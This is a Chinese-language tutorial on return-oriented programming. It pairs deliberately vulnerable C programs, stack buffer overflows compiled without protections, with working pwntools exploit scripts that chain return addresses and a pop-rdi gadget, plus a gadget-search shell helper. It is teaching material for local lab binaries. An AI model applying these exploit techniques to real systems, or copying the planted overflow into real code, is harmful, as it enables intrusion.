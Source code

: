 ```yaml
---
comments: true

---
```


前面我们已经知道了可以通过覆盖返回地址控制程序流，但是只能实现使程序执行到某一个地址继续执行，还不能实现复杂的逻辑。接下来，就一起来看看如何基于覆盖返回地址实现复杂逻辑。

## 面向返回编程（ROP）

### ROP原理

ROP的主要目的便是通过在合适的位置布置一连串的返回地址，从而实现相对复杂的逻辑。

#### 示例

以下面这个程序为例，目标是先后执行`func1`-`func3`

```c
// gcc test.c -no-pie -fno-stack-protector -g
#include <stdio.h>

void func1() { printf("func1 called\n"); }

void func2() { printf("func2 called\n"); }

void func3() { printf("func3 called\n"); }

int main() {
    char str[0x20];

    read(0, str, 0x50);

    return 0;
}
```

对应的exp脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

func1_address = elf.sym["func1"]
func2_address = elf.sym["func2"]
func3_address = elf.sym["func3"]

payload = b"A" * 0x28
payload += p64(func1_address)
payload += p64(func2_address)
payload += p64(func3_address)

p.send(payload)

p.interactive()
```

单看这个脚本可能会有点抽象，下面是栈帧变化的动画演示：

![img](images/ROP/basic_rop.gif)

### gadget

现在我们已经能够实现通过在合适的位置布置地址实现按照一定的顺序调用函数。但是这还不够精细，毕竟我们现在还很难控制调用这些函数时传递的参数（可以先了解一下Linux下C语言的调用约定）。这里就需要引入一个新的概念——gadget。

gadget在这里指的是以`ret`指令结尾的代码片段，例如`leave; ret`就是一个很常用的gadget。我们可以利用各种合适的gadget拼凑出需要的程序逻辑。

####  获取gadget

获取gadget可以使用工具`ROPgadget`获取到elf文件中的大部分gadget。如下图

![image-20230727230856208](images/ROP/image-20230727230856208.png)

结果可以结合`grep`工具进行搜索，不过我更推荐结合fzf使用，但是这个需要写shell脚本，下面这个是我自己用的shell脚本，能够快速搜索，并把搜索结果存入剪贴板（使用的shell为fish，显示服务器为wayland）

```fish
function find_gadget -d "find gadget from binary file"
    set -l file $argv[1]
    set -l file_md5 (md5sum $file | cut -d ' ' -f 1)

    if ! test -f ./gadget-$file-$file_md5
        ROPgadget --binary $file > ./gadget-$file-$file_md5
    end
    
    set -l result (cat ./gadget-$file-$file_md5 | fzf)

    if test -z $result
        echo "No gadget selected."
        return
    end

    set -l addr (string sub --length 18 $result)

    wl-copy $addr

    echo "The offset of gadget '$result' has been saved to the clipboard."
end
```

#### 示例

已下面这个程序为例，目的是让程序输出`Hello, World!`：

```c
#include <stdio.h>

char *str = "Hello, World!";

void func1() { puts("func1 called"); }

int main() {
    char str[0x20];

    read(0, str, 0x50);

    return 0;
}
```

对应的exp脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

puts_addr = elf.sym["puts"]
str_hello_world = 0x00402004
pop_rdi_ret = 0x0000000000401203

payload = b"A" * 0x28
payload += p64(pop_rdi_ret)
payload += p64(str_hello_world)
payload += p64(puts_addr)

p.send(payload)

p.interactive()
```

栈帧变化的动画演示：

![img](images/ROP/rop_gadget.gif)
